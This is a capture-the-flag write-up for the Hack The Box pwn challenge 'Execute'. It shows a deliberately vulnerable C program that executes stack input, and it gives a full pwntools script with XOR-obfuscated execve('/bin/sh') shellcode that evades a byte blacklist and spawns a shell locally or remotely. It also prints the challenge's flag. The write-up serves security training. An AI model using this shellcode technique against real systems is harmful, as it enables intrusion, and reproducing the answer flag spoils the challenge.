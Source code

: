 # Execute

- **Challenge**: [https://app.hackthebox.com/challenges/Execute](https://app.hackthebox.com/challenges/Execute)
- **Category**: Pwn
- **Level**: Easy
- **Author**: ryaagard

```bash

$ file *
execute:   ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=815ed65e93f716cd381035b74fa25dc5d7aa8ff5, for GNU/Linux 3.2.0, not stripped

execute.c: C source, ASCII text

flag.txt:  ASCII text

```

We proceed with the analysis of the source file **execute.c**.

## Source Code Analysis

```c

// gcc execute.c -z execstack -o execute

#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void setup() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(0x7f);
}

int check(char *a, char *b, int size, int op) {
    for(int i = 0; i < op; i++) {
        for(int j = 0; j < size-1; j++) {
            if(a[i] == b[j])
                return 0;
        }
    }

    return 1337;
}

int main(){
    char buf[62];
    char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");

    int size = read(0, buf, 60);

    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}

```

Essentially, the program allows inserting and executing arbitrary code loaded on the stack (that is, in the local variable **buf**).

**[+] Shellcode Injection Vulnerability**.

Indeed, note that the binary **execute** does not have the **No eXecutable** protection enabled.

```bash

$ checksec --file=execute
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The program allows allocating **60 bytes** of data on the stack, but the **shellcode** to be executed must pass the control of the **check** function.

The *check* function compares the input data with a **blacklist**, to avoid executing code containing the following bytes/characters:

```bash

$ python2 -c "print b'\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67'" | xxd
00000000: 3b54 6269 6e73 68f6 d2c0 5fc9 666c 6167  ;Tbinsh..._.flag
00000010: 0a                                       .

```

Hence, we proceed with building shellcode.

## Crafting the payload

How to bypass the **blacklist**?

**[IDEA]**: use the **XOR** function to obfuscate data.

![XOR](./img/xor.png)

Below is the Python script built for:

1. **Data obfuscation**
2. **Crafting the shellcode**
3. **Exploitation**

Using the *pwntools* and *argparse* libraries.

```python

#!/usr/bin/env python3
from pwn import context, ELF, asm, disasm, info, process, gdb, remote
from argparse import ArgumentParser
import os

exe = "./execute"
elf = context.binary = ELF(exe, checksec=False)

```

### 1. Data Obfuscation

```python

### Obfuscation: /bin/cat flag.txt

_bin_sh = int.from_bytes("/bin/sh\x00".encode(), byteorder="little")
key = 0x9222311122334411

obf_bin_sh = _bin_sh ^ key

info(f"Data Obfuscation:\n/bin/sh:\n\t{hex(_bin_sh)}\nkey:\n\t{hex(key)}\n/bin/sh XOR key:\n\t{hex(obf_bin_sh)}\n")

```

### 2. Crafting the shellcode

```python

### Shellcode generation: execve(char* pathname, char** argv, char** envp) ###

payload=b""

# char* pathname
payload+=asm(f"mov rdi, {obf_bin_sh}")
payload+=asm(f"mov r8, {key}")
payload+=asm("xor rdi, r8")
payload+=asm("push rdi")
payload+=asm("mov rdi, rsp")

# char** argv, char** envp
payload+=asm("xor r11, r11")
payload+=asm("mov rsi, r11")
payload+=asm("mov rdx, r11")

# syscall(59) => execve("/bin/sh", NULL, NULL)
payload+=asm("mov al, 0x3c")
payload+=asm("dec al")
payload+=asm("syscall")

info(f"Shellcode\n{disasm(payload)}\n")
info(f"Shellcode length: {len(payload)} bytes\n")

```

It should be noted that this construction was reached after various local tests in **DEBUG** mode (see next section) since some instructions like **pop rdi** did not pass the *check* function.

### 3. Exploitation

```python

### Exploitation ###

context.log_level="debug"
gdbinit="""
init-pwndbg
break* main
break* main+98
break* main+134
# break* main+174
continue
"""

parser = ArgumentParser(prog=os.path.basename(__file__))
parser.add_argument("-r", "--remote", help="-r, --remote REMOTE:PORT", action="store", type=str, nargs=1)
parser.add_argument("-p", "--process", help="-p, --process", action="store_true")
parser.add_argument("-d", "--debug", help="-d, --debug", action="store_true")

args = parser.parse_args()
if args.process:
    io=process([exe])
elif args.debug:
    io=gdb.debug([exe], gdbscript=gdbinit)
elif args.remote is not None:
    REMOTE, PORT = args.remote[0].split(':')
    io=remote(REMOTE, int(PORT))
else:
    exit(1)

io.sendlineafter(b'\n',payload)
io.interactive()

```

## Local Exploitation

![Local Exploitation](./img/local.png)

With **DEBUG** mode it is possible to see:

### 1. The shellcode in memory

![Shellcode on the stack](./img/debug1.png)

### 2. Bypassing the check function

![Bypass the check](./img/debug2.png)
 
### 3. Shellcode execution

![Shellcode execution](./img/debug3.png)

## Remote Exploitation

Finally, the **flag** is captured remotely.

![Remote Exploitation](./img/remote.png)

<style>
.unselectable {
    -webkit-touch-callout: none;
    -webkit-user-select: none;
    -khtml-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
}
</style>

**Flag**: <label class="unselectable">HT8{wr1t1ng_sh311c0d3_1s_sO_cO0l}</label>

GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
